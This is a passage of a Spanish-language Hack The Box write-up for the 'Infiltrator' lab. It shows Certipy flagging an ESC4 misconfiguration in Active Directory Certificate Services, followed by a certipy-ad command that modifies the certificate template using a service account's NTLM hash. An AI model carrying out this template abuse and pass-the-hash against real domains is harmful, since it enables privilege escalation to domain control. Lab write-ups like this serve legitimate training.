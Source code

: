 ```bash
    Permissions
      Object Control Permissions
        Owner                           : INFILTRATOR.HTB\Local System
        Full Control Principals         : INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
                                          INFILTRATOR.HTB\Local System
        Write Owner Principals          : INFILTRATOR.HTB\infiltrator_svc
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
                                          INFILTRATOR.HTB\Local System
        Write Dacl Principals           : INFILTRATOR.HTB\infiltrator_svc
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
                                          INFILTRATOR.HTB\Local System
        Write Property Principals       : INFILTRATOR.HTB\infiltrator_svc
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
                                          INFILTRATOR.HTB\Local System
    [!] Vulnerabilities
      ESC4                              : 'INFILTRATOR.HTB\\infiltrator_svc' has dangerous permissions
```

Realizaremos la explotación del `ESC4` de los `ADCS` (Active Directory Certificate Services).

{% embed url="https://adminions.ca/books/abusing-active-directory-certificate-services/page/esc4" %}

Configuraremos la template obtenida para que sea vulnerable.

```bash
❯ certipy-ad template -u 'infiltrator_svc$'@infiltrator.htb -hashes 3ec423661d68dbda6c94ff25ff4d726b -template Infiltrator_Template -save-old -dc-ip 10.10.11.31
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'Infiltrator_Template' to 'Infiltrator_Template.json'
